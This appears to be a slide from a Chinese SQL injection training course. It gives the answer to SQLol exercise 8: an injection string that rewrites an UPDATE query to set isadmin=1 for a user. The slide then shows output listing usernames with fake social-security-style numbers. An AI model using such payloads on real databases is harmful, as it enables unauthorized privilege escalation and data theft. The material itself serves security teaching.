

# SQL注入实例 – SQLol（8）答案
修改update语句
myadmin', isadmin=1 where id=3 #
Array ( [username] => Chunk MacRunfast:666-67-6776 ) 
Array ( [username] => Herp Derper:012-34-5678 ) 
Array ( [username] => Peter Weiner:111-22-3333 ) 
Array ( [username] => SlapdeBack LovedeFace:999-99-9999 ) 
Array ( [username] => Wengdack Slobdegoob:000-00-1112 )